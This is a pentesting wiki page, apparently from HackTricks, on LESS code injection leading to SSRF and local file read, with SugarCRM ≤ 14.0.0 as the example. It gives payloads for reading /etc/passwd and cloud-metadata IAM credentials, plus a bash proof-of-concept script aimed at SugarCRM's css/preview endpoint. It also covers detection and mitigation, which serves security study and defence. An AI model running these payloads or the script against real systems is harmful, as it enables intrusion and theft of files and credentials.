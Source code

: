 # LESS Code Injection leading to SSRF & Local File Read

{{#include ../banners/hacktricks-training.md}}

## Overview

LESS is a popular CSS pre-processor that adds variables, mixins, functions and the powerful `@import` directive.  During compilation the LESS engine will **fetch the resources referenced in `@import`** statements and embed ("inline") their contents into the resulting CSS when the `(inline)` option is used.

When an application concatenates **user-controlled input** into a string that is later parsed by the LESS compiler, an attacker can **inject arbitrary LESS code**.  By abusing `@import (inline)` the attacker can force the server to retrieve:

* Local files via the `file://` protocol (information disclosure / Local File Inclusion).
* Remote resources on internal networks or cloud metadata services (SSRF).

This technique has been seen in real-world products such as **SugarCRM ≤ 14.0.0** (`/rest/v10/css/preview` endpoint).

## Exploitation

1. Identify a parameter that is directly embedded inside a stylesheet string processed by the LESS engine (e.g. `?lm=` in SugarCRM).
2. Close the current statement and inject new directives.  The most common primitives are:
   * `;`  – terminates the previous declaration.
   * `}`  – closes the previous block (if required).
3. Use `@import (inline) '<URL>';` to read arbitrary resources.
4. Optionally inject a **marker** (`data:` URI) after the import to ease extraction of the fetched content from the compiled CSS.

### Local File Read

```
1; @import (inline) 'file:///etc/passwd';
@import (inline) 'data:text/plain,@@END@@'; //
```

The contents of `/etc/passwd` will appear in the HTTP response just before the `@@END@@` marker.

### SSRF – Cloud Metadata

```
1; @import (inline) "http://169.254.169.254/latest/meta-data/iam/security-credentials/";
@import (inline) 'data:text/plain,@@END@@'; //
```

### Automated PoC (SugarCRM example)

```bash
#!/usr/bin/env bash
# Usage: ./exploit.sh http://target/sugarcrm/ /etc/passwd

TARGET="$1"        # Base URL of SugarCRM instance
RESOURCE="$2"      # file:// path or URL to fetch

INJ=$(python -c "import urllib.parse,sys;print(urllib.parse.quote_plus(\"1; @import (inline) '$RESOURCE'; @import (inline) 'data:text/plain,@@END@@';//\"))")

curl -sk "${TARGET}rest/v10/css/preview?baseUrl=1&lm=${INJ}" | \
  sed -n 's/.*@@END@@\(.*\)/\1/p'
```

## Detection

* Look for dynamically generated `.less` or `.css` responses containing unsanitised query parameters.
* During code review, search for constructions like `"@media all { .preview { ... ${userInput} ... } }"` passed to LESS render functions.
* Exploit attempts often include `@import`, `(inline)`, `file://`, `http://169.254.169.254`, etc.

## Mitigations

* Do **not** pass untrusted data to the LESS compiler.
* If dynamic values are required, properly **escape**/sanitize them (e.g., restrict to numeric tokens, whitelists).
* Disable, when possible, the ability to use `(inline)` imports, or limit allowed protocols to `https`.
* Keep dependencies up to date – SugarCRM patched this issue in versions 13.0.4 and 14.0.1.

## Real-World Cases

| Product | Vulnerable Endpoint | Impact |
|---------|--------------------|--------|
| SugarCRM ≤ 14.0.0 | `/rest/v10/css/preview?lm=` | Unauthenticated SSRF & local file read |

## References

* [SugarCRM ≤ 14.0.0 (css/preview) LESS Code Injection Vulnerability](https://karmainsecurity.com/KIS-2025-04)
* [SugarCRM Security Advisory SA-2024-059](https://support.sugarcrm.com/resources/security/sugarcrm-sa-2024-059/)
* [CVE-2024-58258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-58258)

{{#include ../banners/hacktricks-training.md}}
